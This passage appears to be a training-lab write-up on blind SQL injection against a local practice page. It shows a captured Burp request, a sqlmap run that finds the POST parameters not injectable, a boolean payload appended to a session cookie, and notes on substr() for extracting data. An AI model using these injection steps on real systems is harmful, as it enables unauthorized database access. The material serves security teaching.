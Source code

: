 {: .box-note}
**Note:** 🚨 If it **return the same response as the original request**, it means the input is vulnerable to SQLi.

After determine the vulnerability to SLQi Blind, we use _YES/NO_ approach to extract data.  
E.g., Is user 'Admin' existed in DB? YES/NO?

#### Burp Suite Proxy
Using Burp Proxy intercept `POST /labs/i0x02.php` request that contains login payload `username=jeremy&password=jeremy`.  
Copy and paste the entire body to .txt file, we will use SQLMAP to identify injectable input area.
   ~~~
   POST /labs/i0x02.php HTTP/1.1
   Host: localhost
   Content-Length: 31
   Cache-Control: max-age=0
   Origin: [http://localhost](http://localhost/)
   Content-Type: application/x-www-form-urlencoded
   User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
   Connection: keep-alive
   username=jeremy&password=jeremy
   ~~~

#### Identify SQL injectable by SQLMap
Run the application against target HTTP request, it will analyze and tell us which input is vulnerable to SQLi. 
   ~~~
   $ sudo sqlmap -r <Path_to_Target_File>
   ~~~
The result suggest all the input in the page aren’t injectable.
   > [12:28:49] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
   > [12:29:06] [WARNING] POST parameter 'username' does not seem to be injectable  
   > [12:29:06] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable  
   > [12:29:07] [WARNING] POST parameter 'password' does not seem to be injectable  
   > [12:29:07] [CRITICAL] all tested parameters do not appear to be injectable.
  
After learning the 1st request we captured isn’t valuable, we move on to the next request `GET /labs/i0x02.php` which contains our session cookie in the body.
   ~~~
   Cookie: session=6967cabefd763ac1a1a88e11159957db
   Response: Content-Length: 1027
   ~~~

Insert quote to test if we can break the structure, which gives us the same Content-Length in response.
   ~~~
   Cokie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#
   Response: Content-Length: 1027
   ~~~

#### Substr()
~~~
Syntax: substr(string,start,length)
E.g., `substr("SQL Test",5,3)`  
 # Extract a substring from a string, and start at position 5, extract 3 characters.
~~~
